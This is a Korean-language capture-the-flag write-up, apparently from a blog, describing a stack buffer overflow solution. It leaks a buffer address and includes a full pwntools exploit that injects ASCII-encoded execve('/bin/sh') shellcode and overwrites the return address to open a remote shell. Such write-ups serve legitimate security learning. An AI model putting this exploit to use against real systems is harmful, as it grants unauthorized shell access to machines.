출력되는 데이터는 `buf = ({address})` 의 형태일 것이기 때문에 데이터를 받아 소괄호를 기준으로 데이터를 분리해 내는 작업을 하도록 만들었다.

그런데 사실 더 편리한 방법이 있다.

```python
...(생략)...
p.recvuntil("buf = (")
ret_add = p32(int(p.recv(10), 16)) # 0x00000000 format
...(후략)...
```

이렇게 할 걸….

문제 다 풀고 나서 생각났다……………………

<br>
<br>

# 3. 익스플로잇 수행

<br>

앞서 짠 코드들을 전부 조합하면 아래와 같은 익스플로잇이 나온다.

```python
from pwn import *

# receiving data and sending data

p = remote('{target_url}', {port_num})

data = str(p.recvline())
dump, data = data.split('(')
data, dump = data.split(')')

data=int(data, 16)

# constructing payload

context.update(arch='i386', os='linux')
avoid = {'\x00', '\x09', '\x0a', '\x0b', '\x0c', '\x0d', '\x20'}

tmp_shellcode= asm(shellcraft.execve("/bin/sh", 0, 0))
shellcode= encoders.i386.ascii_shellcode.encode(tmp_shellcode, avoid)
shellcode_len=len(shellcode)
ret_add=p32(data)

payload = shellcode
payload +=b'A'*(0x84-shellcode_len)
payload += ret_add

print(hexdump(payload))

# gdb.attach(p)
# raw_input("1")

p.sendline(payload)

p.interactive()
```

그 결과, 목표 시스템의 쉘을 획득할 수 있었고, ls 명령어로 플래그 파일의 위치를 확인한 후 (find 명령어로 해도 되는데 나는 ls 명령어로 눈에 보이는 곳에 있는지 확인하고 없다면 find 명령어를 사용하는 쪽을 선호한다) cat 명령어를 이용해 플래그를 알아냈다.